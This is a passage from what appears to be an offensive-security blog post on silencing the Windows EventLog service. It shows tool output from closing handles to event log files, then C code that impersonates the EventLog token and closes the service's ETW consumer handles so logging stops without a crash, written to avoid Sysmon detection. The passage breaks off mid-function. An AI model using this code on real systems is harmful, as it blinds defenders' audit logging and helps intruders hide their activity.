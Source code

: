 

The output was now:

```
[+] Closed Filehandle: 1bc
, name: \Windows\System32\winevt\Logs\Microsoft-Windows-WinINet-Config%4ProxyConfigChanged.evtx
[+] Closed Filehandle: 1f0
, name: \Windows\System32\winevt\Logs\Microsoft-Windows-BitLocker%4BitLocker Management.evtx
[+] Closed Filehandle: 280
, name: \Windows\System32\winevt\Logs\Microsoft-Windows-Kernel-Power%4Thermal-Operational.evtx
[+] Closed Filehandle: 298
, name: \Windows\System32\winevt\Logs\Microsoft-Windows-Biometrics%4Operational.evtx
[+] Closed Filehandle: 2b0
, name: \Windows\System32\winevt\Logs\Security.evtx
```

Every seemd to work, but the EventLog Process crashed. Defenders can monitor process exits with Sysmon, so this solution was not acceptable for me.

I played with the handles and checked the outcomes. Then I had the idea to mute the EventLog ETW Consumer handles.

This was basically done via the same way.

The access mask of ETW Consumer handles was 0x400, which looked pretty unique to me.

```c
DWORD CloseETWConsumerHandle(PSYSTEM_HANDLE_INFORMATION pHandleInfo, DWORD dwPidEventlog, HANDLE hTokenEvtLog, HANDLE hProcessEventlogduplicatequery) {
	DWORD dwSuccess = FAIL;
	DWORD dwSuccessfull = 0;
	DWORD dwtotal = 0;

	DWORD dwHandleCount = 0;

	dwHandleCount = pHandleInfo->HandleCount;


	//We need only the Eventlog token for the handle duplication from the eventlog process
	dwSuccess = ImpersonateLoggedOnUser(hTokenEvtLog);
	if (dwSuccess == FAIL) {
		printf("[-] Could not Impersonate EventLog Token\n");
	}
	


	//Get ETW Consumer Handles
	for (DWORD dwCounterHandle = 0; dwCounterHandle < dwHandleCount; dwCounterHandle++) {
		PSYSTEM_HANDLE pSystemHandle = NULL;
		pSystemHandle = &pHandleInfo->Handles[dwCounterHandle];
		if (pSystemHandle->GrantedAccess == (ACCESS_MASK)0x400 && pSystemHandle->ProcessId == (ULONG)dwPidEventlog) {
			DWORD dwSuccess = FAIL;
			HANDLE hEtwConsumer = NULL;
			dwtotal++;
			//Kills ETW Consumer Handles
			dwSuccess = DuplicateHandle(hProcessEventlogduplicatequery, (HANDLE)(pSystemHandle->Handle), GetCurrentProcess(), &hEtwConsumer, 0x400, FALSE, DUPLICATE_CLOSE_SOURCE);
			//Althought it says request not supported, it works ;)
			if (GetLastError() == 50) {
				dwSuccess = SUCCESS;
			}
			if (dwSuccess == FAIL) {
				printf("[-] Could not close ETW Consumer Handle: %x\n", pSystemHandle->Handle);
			}
			else {
				dwSuccessfull++;
```